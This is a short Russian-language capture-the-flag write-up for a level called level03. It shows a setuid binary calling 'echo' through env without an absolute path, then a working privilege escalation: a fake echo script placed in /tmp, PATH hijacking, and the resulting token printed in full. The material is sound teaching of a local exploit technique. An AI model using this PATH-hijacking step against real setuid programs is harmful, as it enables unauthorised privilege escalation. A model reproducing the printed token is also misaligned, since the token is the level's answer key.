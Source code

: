 В этом уровне впервыфе появляется некий бинарный файл

```
ls -la
```
> ...\
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03\
...

Права rws означают, что данный банарный файл будет выполняться не с привилегиями пользователя, который ее запустил, а с привилегиями владельца файла.
Так как владельцем файла является flag03, вместо echo нужно выполнить getflag

С помощью трассировки вызовов библиотеки находим:
>__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>\
getegid()                                                                                                     = 2003\
geteuid()                                                                                                     = 2003\
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
system("/usr/bin/env echo Exploit me"Exploit me\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = 0\
+++ exited (status 0) +++

Oткрыв файл в нем была найдена строка:

system("/usr/bin/env echo Exploit me"Exploit me\

Которая выполняет echo без абсолютного пути, следовталеьно этот бинарник можно подменить

Создаем файл echo с необходимым содержимым
```
echo '#!/bin/sh
> /bin/getflag' > /tmp/echo
```

Добавляем в начало данный путь
```
export PATH=/tmp:$PATH
```

Получаем токен
```
./level03
```
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

